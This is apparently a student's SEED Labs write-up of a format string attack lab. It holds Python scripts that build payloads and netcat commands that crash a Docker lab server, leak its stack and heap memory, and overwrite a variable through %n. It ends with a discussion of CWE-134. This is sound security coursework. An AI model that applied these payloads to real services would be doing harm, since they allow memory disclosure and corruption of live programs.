





# Seedlab Week #6 (Format String Attack Lab)

# Question 1

### Initial setup

1. Run `sudo sysctl -w kernel.randomize_va_space=0` to disable address randomization.
2. Compile the program using `make && make install`.
3. Start the server in a new terminal by running `docker-compose build` followed by `docker-compose up` in the `/ftm-containers` folder. This setup allows us to view the server's output.

### Task 1: Crashing the Program

The goal of this task is to crash the program by exploiting a format string vulnerability.

Common format string parameters used in this lab:

| Parameters | Output                                                                  |
| ---------- | ----------------------------------------------------------------------- |
| `%x`       | Reads a value from the stack.                                           |
| `%s`       | Reads a string from the process's memory.                               |
| `%n`       | Writes the number of characters printed so far to an address in memory. |

To crash the program, we sent a series of `%s` format specifiers. The server interprets these as pointers to strings, and and at some point tries to access an invalid memory address, causing a crash. We executed the following command: `echo %s%s%s%s%s | nc 10.9.0.5 9090` and then pressed `Ctrl + C`.

<p align="center" justify="center">
  
</p>

As shown in the output, the line `(^_^)(^_^) Returned properly (^_^)(^_^)` is missing, indicating that the program crashed.

<!-- > **Note** in this task we could send just one `%s` because the first value in a stack is `0x11223344` ... Sera que da para esplicar porque isso nao endereso valido? -->

### Task 2: Printing Out the Server Program's Memory

#### Task 2.A: Stack Data.

In this task, we aimed to print data from the stack and determine how many `%x` specifiers are needed to print the first 4 bytes of our input.

To achieve this, we used a Python script (`build_string.py`) to create a payload:

```py
import sys

s = b"AAAA" + b".%x"*100

with open('badfile', 'wb') as f:
  f.write(s)
```

The payload starts with `AAAA` followed by 100 `%x` specifiers, separated by dots for readability. And run `python3 build_string.py`; `cat badfile | nc 10.9.0.5 9090` and pressed `Ctrl + C`.

The output on the server:

<!-- se calhar por em vermelho o 41414141 -->
<p align="center" justify="center">
  
</p>


We observed that the value `41414141` (hexadecimal representation of `AAAA`) appeared at the 64th position (counting the number of dots). This indicates that 64 `%x` specifiers are needed to print our 4 bytes from the process memory.

#### Task 2.B: Heap Data

In this attack the objective was to read a string from a specific address printed by the server:
<!-- Ele sempre o mesmo? -->
```bash
server-10.9.0.5 | The secret message's address:  0x080b4008
```
Steps to achieve this:

1. Place the address of the secret message (`0x080b4008`) at the beginning of the payload.
2. Use 63 consequences `%x` to skip 63 values on the stack (based on the previous task, where 63 values precede our written bytes).
3. Add single `%s` to instruct the server to read a string from the stack, which will be the address we placed in the step 1.

The final `build_string.py` code:

```py
import sys

address = 0x080b4008
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%s"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We ran `python3 build_string.py` then sent `echo hello` to verify the string's address and then used our `badfile` to read a string (`cat badfile | nc 10.9.0.5 9090`).

The output:

<p align="center" justify="center">
  
</p>

At the end of the output, we saw the string `"A secret message"`, confirming that we successfully read data from the heap.

### Task 3: Modifying the Server Program's Memory

#### Task 3.A: Change the value to a different value.

In this task, our objective was to modify the value of a specific variable, `target`, in the server's memory. The original value of this variable was `0x11223344`, as displayed in the server's output, and its address in memory was `0x080e5068`.

To accomplish this, we used the `%n` format specifier, which writes the number of characters printed so far to a specified memory address.

The final `build_string.py` code:

```py
import sys

address = 0x080e5068
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%n"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We placed the address of our target variable at the start of the payload, then skipped 63 values from the stack, and added `%n` to instruct the program to write the number of printed values to the address on the stack, which will be our specified address (`0x080e5068`).

<p align="center" justify="center">
  
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x000000ee`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x000000ee`.

#### Task 3.B

Based on the previous task which already overwrites the target variable, we know have to find a way to control which value is placed in that memory address. More specifically, we have to write the value 0x5000 into that memory address.

For this, we will still use the `%n` specifier to write the value in the designated address, but we will also use the `%x` to control the number of bytes read from the stack.

```python
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

n = 0x5000 - 4 - 62 * 8
s = "%.8x" * 62 + f"%.{n}x" + "%n"

address = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

By doing this, we start by writing the designated address we want to overwrite in the start of the buffer. After this, the printf will start by executing the `%.8x` which will print 8 chars and advance 4 addresses in memory. Then, it will execute the `%.{n}x` which will print the n characters and advance 4 positions in memory. Finally, it will write the value of printed chars (0x5000) to the address initially defined (0x080e5068), using the `%n`.

<p align="center" justify="center">
  
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x0005000`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x00005000`.

# Question 2

The attacks we performed along the tasks are caused by the weakness CWE-134 "Use of Externally-Controlled Format String". According to [CWE Mitre](https://cwe.mitre.org/data/definitions/134.html), this weakness is observed when a function accepts a format string, originated from an external source (e.g. user input), as its argument.

Since a user string can be stored in the heap, just as in the stack, we can also observe a vulnerability if the format string is allocated dynamically. For example, we can use something similar to the exploit on task 2.A to read everything from the stack, which can include sensitive data.

However, for running the attacks we used on this guide, we need to store the address in memory we want to read/write to in a position that can be interpreted by `printf` as the address of one of its arguments. This means that the value needs to be stored on the stack, so it cannot be influenced by information of the format string, making all the attacks we performed unreliable. It can only be done by using non-deterministic solutions, such as using pre-existing stack values.

